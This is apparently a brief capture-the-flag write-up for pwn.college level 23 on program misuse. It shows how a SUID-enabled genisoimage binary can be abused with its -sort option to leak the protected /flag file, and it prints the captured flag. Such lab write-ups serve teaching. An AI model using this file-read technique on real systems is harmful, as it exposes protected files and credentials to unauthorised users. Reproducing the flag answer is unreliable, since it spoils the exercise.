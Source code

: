 # pwn.college - Fundamentals - Program misuse - Level 23
```
$ /challenge/babysuid_level23
```
The SUID bit on `/usr/bin/genisoimage` is set
```
$ genisoimage -sort /flag 2>&1 | tail -n 1 | tr -d "\t"
```
`pwn.college{whBdP1iJOIpFvijA2JmLEuEbqi5.0VN2EDLyYjNyEzW}`
